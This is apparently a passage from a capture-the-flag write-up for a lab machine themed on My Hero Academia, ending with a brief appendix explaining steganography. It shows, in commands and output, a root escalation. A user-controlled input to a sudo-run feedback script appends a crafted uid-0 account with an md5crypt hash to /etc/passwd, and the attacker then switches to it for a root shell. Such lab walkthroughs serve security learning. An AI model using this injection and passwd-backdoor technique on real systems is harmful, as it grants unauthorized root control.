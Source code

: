 `ssh -i /root/.ssh/id_ed25519 -o MACs=hmac-sha2-256 root@yueiua.thm -p 22`

```bash
root@myheroacademia:~# whoami
root
root@myheroacademia:~# id
uid=0(root) gid=0(root) groups=0(root)
root@myheroacademia:~# 
```

`mkpasswd -m md5crypt -s`

```bash
Password: overthenet
$1$z9Y3uN3T$ChtulslcE/T3WvKET6nh3/
```

**PASSWD PAYLOAD:**

```bash
overthenet:$1$z9Y3uN3T$ChtulslcE/T3WvKET6nh3/:0:0:overthenet:/root:/bin/bash
```

```bash
deku@myheroacademia:~$ sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:

'overthenet:$1$z9Y3uN3T$ChtulslcE/T3WvKET6nh3/:0:0:overthenet:/root:/bin/bash' >> /etc/passwd
It is This:
Feedback successfully saved.

deku@myheroacademia:~$ tail -n1 /etc/passwd
overthenet:$1$z9Y3uN3T$ChtulslcE/T3WvKET6nh3/:0:0:overthenet:/root:/bin/bash
deku@myheroacademia:~$ su overthenet
Password: 
root@myheroacademia:/home/deku# whoami
root
root@myheroacademia:/home/deku# id
uid=0(root) gid=0(root) groups=0(root)
root@myheroacademia:/home/deku# 
```

# **Appendix**

## Steganography

<aside>
💡

Steganography is the practice of concealing information within another file, message, image, or video in such a way that its presence is hidden. Unlike encryption, which makes data unreadable without a key, steganography aims to disguise the existence of the hidden data itself, often blending it into a harmless-looking file or medium. In digital steganography, data is hidden by modifying the least significant bits (LSB) of the cover file’s digital binary representation, making the change subtle and unlikely to affect the file's quality.

</aside>